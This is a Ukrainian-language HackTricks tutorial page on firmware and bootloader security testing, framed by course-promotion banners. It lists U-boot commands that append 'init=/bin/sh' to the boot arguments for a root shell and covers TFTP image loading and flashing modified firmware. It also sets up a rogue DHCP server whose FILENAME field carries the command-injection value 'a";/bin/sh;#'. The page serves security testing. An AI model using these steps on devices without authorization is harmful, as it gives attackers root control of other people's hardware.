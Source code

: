 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Наступні кроки рекомендуються для модифікації конфігурацій запуску пристроїв та завантажувачів, таких як U-boot:

1. **Доступ до інтерпретатора завантажувача**:
- Під час завантаження натисніть "0", пробіл або інші виявлені "магічні коди", щоб отримати доступ до інтерпретатора завантажувача.

2. **Модифікація аргументів завантаження**:
- Виконайте наступні команди, щоб додати '`init=/bin/sh`' до аргументів завантаження, що дозволяє виконання команд оболонки:
%%%
#printenv
#setenv bootargs=console=ttyS0,115200 mem=63M root=/dev/mtdblock3 mtdparts=sflash:<partitiionInfo> rootfstype=<fstype> hasEeprom=0 5srst=0 init=/bin/sh
#saveenv
#boot
%%%

3. **Налаштування TFTP сервера**:
- Налаштуйте TFTP сервер для завантаження образів через локальну мережу:
%%%
#setenv ipaddr 192.168.2.2 #локальна IP адреса пристрою
#setenv serverip 192.168.2.1 #IP адреса TFTP сервера
#saveenv
#reset
#ping 192.168.2.1 #перевірка доступу до мережі
#tftp ${loadaddr} uImage-3.6.35 #loadaddr приймає адресу для завантаження файлу та ім'я файлу образу на TFTP сервері
%%%

4. **Використання `ubootwrite.py`**:
- Використовуйте `ubootwrite.py` для запису образу U-boot та завантаження модифікованого прошивки для отримання root доступу.

5. **Перевірка функцій налагодження**:
- Перевірте, чи активовані функції налагодження, такі як детальне ведення журналу, завантаження довільних ядер або завантаження з ненадійних джерел.

6. **Обережність при апаратному втручанні**:
- Будьте обережні при підключенні одного контакту до землі та взаємодії з чіпами SPI або NAND flash під час послідовності завантаження пристрою, особливо перед розпакуванням ядра. Консультуйтеся з технічними характеристиками чіпа NAND flash перед коротким замиканням контактів.

7. **Налаштування підробленого DHCP сервера**:
- Налаштуйте підроблений DHCP сервер з шкідливими параметрами для пристрою, щоб він споживав їх під час PXE завантаження. Використовуйте інструменти, такі як допоміжний сервер DHCP Metasploit (MSF). Змініть параметр 'FILENAME' на команди ін'єкції, такі як `'a";/bin/sh;#'`, щоб перевірити валідацію введення для процедур запуску пристрою.

**Примітка**: Кроки, що передбачають фізичну взаємодію з контактами пристрою (*позначені зірочками), слід виконувати з великою обережністю, щоб уникнути пошкодження пристрою.


## References
* [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)


{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
